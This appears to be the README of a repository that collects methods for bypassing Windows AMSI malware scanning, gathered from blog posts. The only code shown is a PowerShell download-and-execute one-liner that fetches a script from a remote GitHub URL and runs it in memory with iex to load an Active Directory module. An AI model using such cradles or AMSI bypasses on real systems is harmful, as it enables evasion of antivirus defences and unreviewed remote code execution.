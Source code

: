 # Amsi-Bypass
This repo contains some Amsi Bypass methods i found on different Blog Posts.

# load admodule
```
 iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```
